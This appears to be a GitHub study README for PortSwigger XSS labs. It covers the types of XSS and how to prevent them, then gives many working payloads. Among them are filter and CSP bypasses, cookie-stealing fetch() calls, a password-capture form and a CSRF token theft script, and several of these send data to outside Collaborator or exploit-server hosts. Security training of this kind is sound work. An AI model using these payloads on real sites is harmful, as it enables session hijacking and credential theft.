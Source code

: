 # 🛡  XSS  Cross-site scripting <a href="https://portswigger.net/web-security/all-labs#cross-site-scripting"> Lab's </a>




## 1️⃣ What is XSS?
Cross-Site Scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users.

## 🧩 Types of XSS

| Type              | Description |
|-------------------|-------------|
| **Reflected XSS** | Payload is included in the request and reflected in the response immediately. |
| **Stored XSS**    | Payload is permanently stored on the server (e.g., database, comment section) and served to other users. |
| **DOM-Based XSS** | The payload is executed entirely on the client side, caused by unsafe JavaScript handling in the DOM. |

---

## ⚙ How XSS Works
1. Attacker crafts a malicious payload (JavaScript).
2. Payload is injected into a vulnerable parameter or input field.
3. When a victim loads the page, the script runs in their browser.
4. The attacker can now:
   - Steal cookies/session tokens
   - Redirect to malicious sites
   - Modify webpage content
   - Exploit APIs using victim’s session

---

## 🛡 How to Prevent XSS

| Strategy | Details |
|----------|---------|
| **Input Validation** | Validate and sanitize all user inputs on both client and server side. |
| **Output Encoding** | Encode special characters before rendering (`<` → `&lt;`). |
| **CSP (Content Security Policy)** | Restrict which scripts can be executed in the browser. |
| **HTTPOnly Cookies** | Prevent JavaScript from accessing cookies. |
| **Escaping Data** | Escape output based on the context (HTML, JS, URL, etc.). |

- **Escape output** for HTML, JS, CSS contexts.
- **Use safe DOM APIs** (`textContent` instead of `innerHTML`).
- **Validate input** and reject dangerous patterns.
- **Enable CSP** (Content Security Policy).
- **Use HTTPOnly cookies** for session tokens.
- **Avoid dangerous functions** (`eval()`, `Function()`).

---

## Common Payloads | <a href="https://github.com/robin113x/BSCP-Exam/tree/main/Payload/XSS_Payload" target="_blank">Payload's</a>


| **Context**       | **Payload** |
|-------------------|-------------|
| Basic HTML/JS     | `<script>alert(1)</script>` |
| Image Error Event | `<img src=x onerror=alert(1)>` |
| Anchor Tag        | `<a href=javascript:alert(1)>Click</a>` |
| Inline SVG        | `<svg onload=alert(1)>` |
| Onmouseover Event | `<div onmouseover=alert(1)>Hover me</div>` |
| DOM URL Fragment  | `#<img src=x onerror=alert(1)>` |



---

##  Testing Tips
- **Reflected XSS:** Check query parameters, form submissions, search fields.
- **Stored XSS:** Test comment boxes, profile descriptions, message boards.
- **DOM XSS:** Look for JS that takes `location`, `document.cookie`, `document.referrer` and writes to `innerHTML`, `document.write()`, or `eval()`.

---

##  Sources & Sinks (DOM XSS)
**Sources:**  
- `location`, `document.URL`, `document.cookie`, `document.referrer`, `window.name`, `localStorage`, `sessionStorage`

**Sinks:**  
- `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout()` (string), `Function()`, `element.src`

---


##  Quick Exploit Examples

### Reflected
```html
https://victim.com/?name=<script>alert(1)</script>
```
<hr>

# 📜 ***LABS***

## LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

## Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



## Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



## Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

## Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### LAB: Reflected XSS into a JavaScript string with angle brackets HTML encoded

When you’re dealing with Reflected XSS into a JavaScript string, and angle brackets < > are HTML-encoded or filtered, you can still exploit XSS without any HTML tags.

```
";alert(1);//         // closes quote and runs JS
'+alert(1)+'         // using concatenation
'-alert(1)-'         // works too
"/1/+alert(1)//      // division with alert
"/a/+alert(1)//      // forces type coercion
"+alert(1)+""        // string concat, safe from HTML filter
"+alert(String.fromCharCode(88,83,83))+"
```


### LAB: DOM XSS in document.write sink using source location.search inside a select element

payload:
```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```

### LAB:  DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
$scope
$watch $ON $eval $emit $apply $digest
payload:
```
{{$on.constructor('alert(1)')()}}
{{$watch.constructor('alert(1)')()}}
```


### LAB: Reflected DOM XSS
payload:
```
\"-alert(1)}//
\"+alert(1)}//
\"&alert(1)}//
\"|alert(1)}//
```

### Lab: Stored DOM XSS
payload:
```
<><img src=1 onerror=alert(1)>
```


### Reflected XSS into HTML context with most tags and attributes blocked

<iframe src="https:///0af8005f03c81c828041176b003b001f.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'>



### LAB: Reflected XSS into HTML context with all tags blocked except custom ones

```
<robin onclick=alert(document.cookie)>
<robin onclick=alert(1)>

<script>
location = 'https://0a5400970474591680c31759002a0079.web-security-academy.net/?search=<robin id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

## Lab: Reflected XSS with some SVG markup allowed
```
<svg id=x onbegin=alert(1)>
<svg><animatetransform onbegin=alert(1)>   
```
## LAB:  Reflected XSS in canonical link tag
```
In URL add at end : 
/?'accesskey='x'onclick='alert(1)
```


## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
```
</script><script>alert(1)</script>

```

## Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
```
\'-alert(1)//
\'+alert(1)//
```

## Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
http://robin.com/?&apos;-alert(1)-&apos;
http://robin.com/?&#39;+alert(1)+&#39;
http://robin.com/?&#x27;+alert(1)+&#x27;

```
## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
${alert(1)}
```

## Lab: Exploiting cross-site scripting to steal cookies

submit the following payload in a blog comment: 
payload
```
use Burp Collaborator :: 

<script>
fetch('https://m0nv6rd5ltolzbtmrjxa6vvz1q7hv7jw.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
#### Alternative  Exploiting XSS to bypass CSRF defenses
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

## Lab: Exploiting cross-site scripting to capture passwords
```

<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ik6rqnx15p8hj7dibfh6qrfvlmrdf43t.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


## Lab: Exploiting XSS to bypass CSRF defenses
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

## Lab: Reflected XSS with AngularJS sandbox escape without strings

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings)
payload
```
toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)


toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

```

## Lab: Reflected XSS with AngularJS sandbox escape and CSP
```
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';
</script>



<script>
location='https://0a91009e037b43e2805e03310060009f.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>

```

## Lab: Reflected XSS with event handlers and href attributes blocked
```
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```


## Lab: Reflected XSS in a JavaScript URL with some characters blocked
```
href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=4'}).finally(_ => window.location = '/')"



https://0a3000ba04e4d0318287746200af00a3.web-security-academy.net/post?postId=3&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'




post?postId=3&'},x=x=>{{onerror=alert}throw/**/1337},toString=x,window+'',{x:'

```
 ## Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

```
To get victim CSRF token paste this in exploit sever : 
<script>
location='https://0a2d001b0465062e817dacb10077004f.web-security-academy.net/my-account?email="></form><form class="login_form" name="myform" action="https://exploit-0a42007f040406b181c4ab1601310061.exploit-server.net/exploit" method="GET"><button class="button" type="submit">Click</button';
</script>


CSRF PoC - generated by Burp Suite Professional

Pate the HTML code in exploit sever :: Then deliver 


```

## Lab: Reflected XSS protected by CSP, with CSP bypass

```
/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```